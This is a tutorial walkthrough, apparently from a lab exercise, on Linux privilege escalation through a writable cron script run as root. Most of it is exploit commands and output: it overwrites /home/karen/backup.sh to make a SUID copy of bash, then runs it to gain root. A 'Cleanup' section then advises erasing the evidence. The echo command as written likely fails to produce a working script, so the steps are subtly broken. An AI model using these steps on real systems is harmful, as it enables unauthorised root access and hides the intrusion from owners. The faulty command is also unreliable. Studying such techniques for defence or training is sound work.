

Linux Crontab Privilege Escalation
In Linux, cron jobs are scheduled tasks that automatically run at specified times.
These tasks are defined in files called crontabs. Each user, including root, can have
their own crontab file.
What is Crontab?
Crontab stands for "cron table" – a file that lists commands to be executed at scheduled intervals. The cron service reads this file and runs the defined commands.
Location: System-wide cron jobs are usually found in /etc/crontab
cat /etc/crontabSample output:
Why This Can Be Dangerous
Cron jobs run with the privileges of the user who owns them. In this case,
/home/karen/backup.sh is being run as root.
If this script is writable by a normal user, it opens up a serious privilege escalation vulnerability.
Since the script is writable, an attacker can inject malicious commands that will be executed with root privileges. For example, the attacker can add a command to create a root shell with SUID permissions.
Exploitation
Inject the following code into /home/karen/backup.sh:
$ echo '#!/bin/bash\ncp /bin/bash /tmp/bash\nchmod +s /tmp/bash' > /home/karen/backup.sh
$ chmod +x /home/karen/backup.shNow, wait for cron to run (usually within 1 minute), then check:
$ ls -l /tmp/bashYou should see something like:
-rwsr-xr-x 1 root root ... /tmp/bashRun the SUID shell to gain root access:
$ /tmp/bash -p
$ whoamiOutput: root
Cleanup
After gaining access and completing your task, clean up the evidence:
$ rm /tmp/bash
$ rm /home/karen/backup.shSummary
/home/karen/backup.shis executed by root via cron- The file is writable by a normal user
- Injected script creates a SUID root shell
/tmp/bash -pgives full root access